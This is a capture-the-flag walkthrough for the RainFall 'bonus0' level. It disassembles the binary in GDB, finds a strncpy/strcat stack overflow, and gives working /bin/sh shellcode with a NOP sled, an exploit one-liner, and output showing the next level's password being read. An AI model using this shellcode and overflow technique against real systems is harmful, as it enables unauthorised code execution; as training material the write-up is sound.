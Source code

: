 # bonus0

## exploring the binary
```shell
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
phantom
phantom phantom
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
society
phantom society
```
The binary waits for two strings from standard input, then prints them together, separated by a space.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
```
During runtime, the function <code>pp()</code> is called from <code>main()</code>, and the <code>puts()</code> function is used to print the output. We inspect <code>pp()</code>:

```shell
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	push   %edi
   0x08048522 <+4>:	push   %ebx
   0x08048523 <+5>:	sub    $0x50,%esp
   0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:	lea    -0x30(%ebp),%eax
   0x08048531 <+19>:	mov    %eax,(%esp)
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:	lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:	mov    %eax,(%esp)
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    -0x30(%ebp),%eax
   0x0804854f <+49>:	mov    %eax,0x4(%esp)
   0x08048553 <+53>:	mov    0x8(%ebp),%eax
   0x08048556 <+56>:	mov    %eax,(%esp)
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    $0x80486a4,%ebx
   0x08048563 <+69>:	mov    0x8(%ebp),%eax
   0x08048566 <+72>:	movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:	mov    %eax,%edx
   0x0804856f <+81>:	mov    $0x0,%eax
   0x08048574 <+86>:	mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:	mov    %edx,%edi
   0x08048579 <+91>:	repnz scas %es:(%edi),%al
   0x0804857b <+93>:	mov    %ecx,%eax
   0x0804857d <+95>:	not    %eax
   0x0804857f <+97>:	sub    $0x1,%eax
   0x08048582 <+100>:	add    0x8(%ebp),%eax
   0x08048585 <+103>:	movzwl (%ebx),%edx
   0x08048588 <+106>:	mov    %dx,(%eax)
   0x0804858b <+109>:	lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:	mov    %eax,0x4(%esp)
   0x08048592 <+116>:	mov    0x8(%ebp),%eax
   0x08048595 <+119>:	mov    %eax,(%esp)
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    $0x50,%esp
   0x080485a0 <+130>:	pop    %ebx
   0x080485a1 <+131>:	pop    %edi
   0x080485a2 <+132>:	pop    %ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
```
We see that <code>pp()</code> invokes potentially exploitable functions such as <code>strcpy()</code> and <code>strcat()</code>, and it also calls <code>p()</code> twice. We proceed to disassemble <code>p()</code>.
```shell
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
```
This function is responsible for invoking the <code>read()</code> function. We observe that the value <code>0x1000</code> (4104) is pushed into the memory location specified by <code>0x8(%esp)</code>, setting up the buffer size for the <code>read()</code> call. The effective address of the memory location <code>-0x1008(%ebp)</code> is then loaded into the <code>eax</code> register, which limits the bytes read to 4096 (diff 8).

## buffer overflow
The buffer overflow limitation will be determined by <code>strcat()</code>, so we will examine the buffer's state before <code>puts()</code> is called in <code>main()</code>. Our objective is to pass two long strings as parameters and then inspect the value of the instruction pointer register (<code>EIP</code>) at the point of <code>puts</code> execution.
``` shell
(gdb) b *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmn

Breakpoint 1, 0x080485c0 in main ()
(gdb) step
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x51504f4e: Input/output error.

0x4d4c4b4a in ?? ()
(gdb) i reg
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff730	0xbffff730
ebp            0x49484746	0x49484746
esi            0x0	0
edi            0x0	0
eip            0x4d4c4b4a	0x4d4c4b4a
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now, we observe that register overwriting begins at the tenth character, suggesting an offset of 9. This size makes it fairly impossible to use a classic <code>ret2libc</code> attack, so we will use a <code>shellcode</code> for this purpose. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://www.exploit-db.com/exploits/13357):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
bonus0@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus0@RainFall:/tmp$ cc addr.c -o addr
bonus0@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85b
```
The only thing left to do is to expose the address of this environmental variable, which can be easily accomplished with our custom C binary. Then, we can construct a simple input that will pass both strings (separated by <code>\n</code>) following these rules:
- the total size of the first buffer is 4096
- offset of the second string is equal to 9
- overflow will happen in the second string
``` shell
4095 * placeholder | \n | 9 * placeholder | shellcode | 150 * placeholder
```

## exploit
``` shell
bonus0@RainFall:~$ python -c 'print "F"*4095 + "\n" + "F"*9 + "\xbf\xff\xf8\x5b"[::-1] + "F"*150' > /tmp/flagb0
bonus0@RainFall:~$ cat /tmp/flagb0 - | ./bonus0
 -
 -
FFFFFFFFFFFFFFFFFFFFFFFFFFFFF[���FFFFFFF��� FFFFFFFFF[���FFFFFFF���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

